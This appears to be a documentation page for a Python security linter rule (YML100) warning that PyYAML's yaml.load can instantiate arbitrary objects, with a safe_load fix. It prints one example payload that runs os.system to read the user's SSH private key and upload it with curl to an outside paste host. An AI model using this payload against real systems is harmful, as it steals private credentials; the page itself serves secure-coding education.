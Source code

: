 #YML100

Use of unsafe yaml load. Allows instantiation of arbitrary objects. Consider yaml.safe_load().

The Pyyaml library's default loader will parse YAML like this:

```yaml
!!python/object/apply:os.system ["cat ~/.ssh/id_rsa | curl -F 'sprunge=<-' http://sprunge.us"]
```

Using `yaml.load` against this input would execute local commands on the host shell

## Deprecation in pyyaml 5.1

Newer versions of Pyyaml (5.1) will raise a warning, however many situations like web servers developers would not see this warning.

## Example

```python
import yaml
with open('cfg.yaml') as cfg:
    config = yaml.load(cfg)
```

## Quick Fixes

* Plugin will recommend [Safe Load Fixer](../fixes/safeloadfixer.md).

## See Also

* [YAML Load Input Documentation](https://github.com/yaml/pyyaml/wiki/PyYAML-yaml.load(input)-Deprecation)